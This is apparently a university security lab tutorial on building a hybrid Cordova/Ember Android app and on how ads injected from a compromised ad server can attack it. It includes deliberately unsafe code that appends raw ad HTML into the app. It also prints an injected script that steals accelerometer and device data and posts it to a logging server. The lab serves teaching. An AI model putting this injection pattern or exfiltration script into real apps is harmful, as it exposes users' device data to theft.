






# Building a Hybrid App in Android and Ember

### Table of Contents
[Introduction](#introduction)  
[Getting started](#getting-started)  
[Advert Integration](#advert-integration)  
[Exploring Attacks](#exploring-attacks)  
[Write your own attack](#write-your-own-attack)  

### Introduction
In this module you will explore the increased vulnerability surface a hybrid app has compared to its web app cousins. The tutorial assumes you have completed the basic setup, configuration, and installation of Cordova, Android, and Ember as the [1st tutorial](hybrid-app-tutorial.md) discussed. It also assumes you have completed the [previous tutorial](hybrid-app-tutorial-part2.md) 

### Getting Started
Start by getting our development environment setup. For this tutorial, we will use the Android emulator we setup last time. If you want, you can replace the emulator portions with your actual Android device and use ADB.

#### Starting the Android Emulator
>! It is very important that you are on the UNO VPN for this lab.
open a new shell (power shell or CMD if windows), navigate to your code repository, and launch the emulator.

```
cd ./hybridapp/
ember cdv run --platform=android --emulator
```

and then upon opening the app, the app should be running in the emulator.

#### Not using live reload
For this tutorial, we will remove live reload - so we can work with an external API properly. Open ```/ember-cordova/cordova/config.xml``` and remove the line:

```XML
    <allow-navigation href="*" />
```

#### New workflow
To rebuild and re-deploy your app. Run the following:

```bash
ember cdv:build --platform android
ember cdv run --platform=android --emulator
```

This will rebuild the app and redeploy the APK - freeing it from needing to talk to the ember live reload server. You should see the running app from before, e.g.:


[Top](#table-of-contents)

### Advert integration
Conceptually, we will include code that will load advertisements when our app loads, and display them to the user. The ad server we've selected exposes an advert API endpoint at ```hybridapp.mlhale.com/api/adverts/```. This endpoint shows all available advertisements - allowing them to be consumed by a mobile app (or any other web app). A single advert is structured as follows:

id: &lt;a unique primary key&gt;
name: &lt;an internal name that identifies who contributed the advert&gt;
payload: &lt;the raw HTML to be injected into the consuming web app or mobile app&gt;

Each consuming app must contain a div with id ```advert``` and the app must include javascript to insert the add payload into this div.

specifically, the ad server requires the following code be inserted into the &lt;body&gt; tag of apps that wish to use its ads.

```html
<!--ad scripts-->
    <script type="text/javascript">
      var testvar= [];
      $.ajax({
          url: 'http://hybridapp.mlhale.com/api/adverts/8',
          type: "GET",
      }).then(function (data, status, request){
        console.log("Successful ajax call: " + request.responseText);
        testvar = [data, status, request];
        $('#advert').append(data.advert.payload);
      }).fail(function(request, status, error){
        console.log("Ajax error: "+request.responseText);
      });
    </script>
    {{content-for "body-footer"}}
    <p>Word from our sponsors</p>
    <div id="advert" style="width: 100%;">

    </div>
```

This situation is a common pattern for ads integrated into mobile and web apps.

#### Introducing a vulnerability
The problem is, the ad server we selected has not been secured properly and has already been compromised. Specifically, it accepts arbitrary - potentially malicious - advert submissions from its partner ad networks. This means that the ads being loaded into the app could contain malicious code that attacks our hybrid app.

That is exactly what we will demonstrate here.

#### Integrate the ad server
Lets return to the ad code and insert it into our app.

open ```/app/index.html``` inside the body tag, at the bottom. When you are done, your code should look like the following (assuming your app is called 'hybridapp')
```HTML
<!--ad scripts-->
<!DOCTYPE html>
<html>
  <head>
    <meta charset="utf-8">
    <meta http-equiv="X-UA-Compatible" content="IE=edge">
    <title>Hybridapp</title>
    <meta name="description" content="">
    <meta name="viewport" content="width=device-width, initial-scale=1">

    {{content-for "head"}}

    <link rel="stylesheet" href="{{rootURL}}assets/vendor.css">
    <link rel="stylesheet" href="{{rootURL}}assets/hybridapp.css">

    {{content-for "head-footer"}}
  </head>
  <body>
    {{content-for "body"}}

    <script src="{{rootURL}}assets/vendor.js"></script>
    <script src="{{rootURL}}assets/hybridapp.js"></script>

    <!--ad scripts-->
    <script type="text/javascript">
      var testvar= [];
      $.ajax({
          url: 'http://hybridapp.mlhale.com/api/adverts/7',
          type: "GET",
      }).then(function (data, status, request){
        console.log("Successful ajax call: " + request.responseText);
        testvar = [data, status, request];
        $('#advert').append(data.advert.payload);
      }).fail(function(request, status, error){
        console.log("Ajax error: "+request.responseText);
      });
    </script>
    {{content-for "body-footer"}}
    <p>Word from our sponsors</p>
    <div id="advert" style="width: 100%;">

    </div>
  </body>
</html>
```

This code specifically loads the Ad content above the ember code and points to the adverts/7/ endpoint - pulling in and displaying whatever data is in the payload. 

Rebuild your ember app and re-run it to see our new code in action.

```bash
ember cdv:build --platform android
ember cdv run --platform=android --emulator
```

For you to see what is going on, open a chrome developer tab to inspect the app.

To inspect our app, open a new chrome window and type the following:
```
chrome://inspect/#devices
```

You should see something like this:



Clicking 'inspect' will give you a full visual + console toolset that you can use to interact directly with the running app.



Notice that we see some stuff was loaded into the advert div - namely 'Advert text', 'Advert img:', and the google logo.



If you look closely, you can see the problem with this ad server - and with blindly injecting arbitrary HTML into your app.

Look below the advert img src. Notice there is a ```script``` tag there. 
Where did it come from???

Click it. 



That's right it was injected into the app!

### Exploring attacks
It turns out attacks can do more than just popup alerts. They can also steal information and send it back to some malicious server for analysis.

In ```/app/index.html``` switch your url to advert 9

```javascript
$.ajax({
          url: 'http://hybridapp.mlhale.com/api/adverts/9',
```

Then rebuild and reload your app:

```bash
ember cdv:build --platform android
ember cdv run --platform=android --emulator
```

When the app loads you will see a popup telling you than an attack has succeeded (this alert is built into the attack code - usually attacks are silent).


What just happened is that the attack grabbed the current accelerometer data and sent it to a logging server (sitting on the same server as our ad server for conveinence). This logging server could be anything - and could reside anywhere. Now the attacker has your data! In case you are wondering this is the attack code injected into the app.

```HTML
<script>
    var result={'x':'','y':'','z':'','timestamp':''};
    try {navigator.accelerometer.getCurrentAcceleration(function (acceleration) {//success callback
        //console.log('acceleration setvars called');
        result.x=acceleration.x;
        result.y=acceleration.y;
        result.z=acceleration.z;
        result.timestamp=acceleration.timestamp;
var formData = 'attack=9'+'&result='+JSON.stringify(result)+'&device_type='+navigator.userAgent+'&platform='+navigator.platform+'&platform_version='+navigator.vendor;
        $.ajax({
            url: 'http://hybridapp.mlhale.com/api/logitems/',
            type: "POST",
            data: formData,
            contentType:"application/x-www-form-urlencoded"
        }).then(function (data, status, request){
            console.log("Successful ajax call: " + request.responseText);
            alert('Attack Succeeded: '+request.responseText, 10000);
        }).fail(function(request, status, error){
            console.log("Ajax error: "+request.responseText);
            alert('Attack Failed: '+request.responseText, 10000);
        });
    }, function (error) {//error callback
        //do some error handling
    });}
    catch(err){
        alert('Attack Failed: '+'Cordova failed: probably not running on a mobile device.', 10000);
    }
</script>
```

Here is a screenshot of the logs generate on my logging server



[Top](#table-of-contents)

### Write your own attack
Write an attack to go along with the feature you worked on independently in lab 2. Ask me for access and I will provide you with credentials to access and deploy your attack on the ad server.

#### License
<a rel="license" href="http://creativecommons.org/licenses/by-nc-sa/4.0/"></a><br /><span xmlns:dct="http://purl.org/dc/terms/" property="dct:title">CYBER8480 and related works</span> by <a xmlns:cc="http://creativecommons.org/ns#" href="http://faculty.ist.unomaha.edu/mlhale" property="cc:attributionName" rel="cc:attributionURL">Matt Hale</a> are licensed under a <a rel="license" href="http://creativecommons.org/licenses/by-nc-sa/4.0/">Creative Commons Attribution-NonCommercial-ShareAlike 4.0 International License</a>.

